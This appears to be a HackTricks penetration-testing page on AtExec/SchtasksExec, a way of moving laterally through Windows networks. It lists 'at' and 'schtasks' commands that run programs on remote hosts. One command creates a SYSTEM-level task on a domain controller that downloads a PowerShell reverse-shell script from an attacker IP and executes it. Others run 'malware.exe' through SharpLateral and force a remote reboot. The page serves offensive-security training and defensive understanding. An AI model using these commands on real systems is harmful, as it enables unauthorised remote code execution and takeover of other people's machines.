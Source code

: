 # AtExec / SchtasksExec

{{#include ../../banners/hacktricks-training.md}}

## How Does it works

At allows to schedule tasks in hosts where you know username/(password/Hash). So, you can use it to execute commands in other hosts and get the output.

```
At \\victim 11:00:00PM shutdown -r
```

Using schtasks you need first to create the task and then call it:

```bash
schtasks /create /n <TASK_NAME> /tr C:\path\executable.exe /sc once /st 00:00 /S <VICTIM> /RU System
schtasks /run /tn <TASK_NAME> /S <VICTIM>
```

```bash
schtasks /create /S dcorp-dc.domain.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "MyNewtask" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/InvokePowerShellTcp.ps1''')'"
schtasks /run /tn "MyNewtask" /S dcorp-dc.domain.local
```

You can also use [SharpLateral](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral schedule HOSTNAME C:\Users\Administrator\Desktop\malware.exe TaskName
```

More information about the [**use of schtasks with silver tickets here**](../active-directory-methodology/silver-ticket.md#host).

{{#include ../../banners/hacktricks-training.md}}


